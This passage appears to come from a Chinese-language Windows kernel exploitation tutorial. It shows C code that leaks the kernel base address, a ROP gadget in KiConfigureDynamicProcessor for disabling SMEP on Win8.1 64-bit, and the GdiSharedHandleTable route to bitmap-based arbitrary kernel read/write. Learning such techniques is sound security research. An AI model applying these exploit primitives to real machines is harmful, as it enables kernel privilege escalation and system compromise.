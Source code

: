 ```c
	ModuleInfo = (PSYSTEM_MODULE_INFORMATION)VirtualAlloc(NULL, len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (!ModuleInfo)
	{
		return NULL;
	}

	NtQuerySystemInformation(SystemModuleInformation, ModuleInfo, len, &len);

	kernelBase = ModuleInfo->Module[0].ImageBaseAddress;
	VirtualFree(ModuleInfo, 0, MEM_RELEASE);

	return kernelBase;
}

int main()
{
	printf("Kernel base: %p.\n", GetKernelBase());
	return 0;
}
```

## Win8.1 64bit

### ROP 关闭 SMEP

```
kd> uf KiConfigureDynamicProcessor
nt!KiConfigureDynamicProcessor:

..... snip ......

nt!KiConfigureDynamicProcessor+0x40:
fffff803`265ff3cc 0f22e0          mov     cr4,rax    <---- gadget here

nt!KiConfigureDynamicProcessor+0x43:
fffff803`265ff3cf 4883c428        add     rsp,28h
fffff803`265ff3d3 c3              ret
kd> ? fffff803`265ff3cc-nt
Evaluate expression: 3711948 = 00000000`0038a3cc
```

这个gadget中`add rsp, 28h`移动rsp到一个位置，该处位置是`NtQueryIntervalProfile(0x1234, &interVal)`函数的第一个参数。

而这其中的rax，反汇编可知，使用的`NtQueryIntervalProfile(0x1234, &interVal)`函数的第二个参数。

### Bitmap 任意地址读写 

GdiSharedHandleTable泄露地址

```
_TEB + 0x60 ----> _PEB 
_PEB + 0xf8 ----> GdiSharedHandleTable
GdiSharedHandleTable + index*0x18 ---->  GDICELL64
```
